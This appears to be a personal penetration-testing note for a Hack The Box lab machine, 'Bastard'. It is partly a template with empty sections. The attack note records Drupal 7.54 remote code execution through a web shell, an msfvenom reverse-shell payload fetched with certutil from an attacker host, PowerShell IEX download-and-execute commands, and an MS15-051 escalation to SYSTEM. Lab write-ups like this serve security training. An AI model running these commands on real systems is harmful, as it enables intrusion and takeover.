

# Summary


## about target

tip:  10.129.118.26

hostname: bastard

Difficulty:  Medium


## about attack

+ drupal scan, check and note; powershell exe via web rce.
+ if your shell not able to execute winpeas, try powerup and Sherlock; 
+ if your shell have some unknown issues running ps1, try change. to nc


**attack note**

```bash
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

http 80
drupal 

/robots.txt found /changelog.txt
got version, drupal Drupal 7.54

exploit 
https://www.exploit-db.com/exploits/41564
https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/

got shell.
apt install php-curl   ## before exploit

change php exploit script, and run
php 41654.php

curl http://1.129.118.117/hacker.php?fexec=whoami

create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kip LPORT=4444  EXITFUNC=thread -f exe  -o shel4444.exe

download payload
python -m http.server 80

http://10.129.118.117/hacker.php?fexec=certutil%20-urlcache%20-split%20-f%20http://10.10.14.15/shel4444.exe
http://10.129.118.117/hacker.php?fexec=.\shel4444.exe

# local enum
whoami /all

SeimpersonatePrivilege enbaled.

reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s

certutil -urlcache -split -f http://10.10.14.15/prts.exe

powerup enum, no permisstion to check service.
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.15/PowerUp.ps1'); Invoke-AllChecks"

sherlock enum, wpeas not work. remember append Find-AllVulns to file. 
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.15/Sherlock.ps1')"

## check via rce
http://10.129.118.118/hacker.php?fexec=echo%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.15/Sherlock.ps1%27)%20|%20powershell%20-nop%20-
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.15/Sherlock.ps1') | powershell -nop -

found vulns
ms10-092, ms15-051, ms16-032, 

ms15-051 exploit, https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

cp ms15-051x64.exe ../exploit.exe
certutil -urlcache -split -f http://10.10.14.15/exploit.exe

exploit.exe cmd

## got system.
```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```


## http enum





# Exploitation


# Privesc


## Post Enumeration


## System


## proof

```bash


```


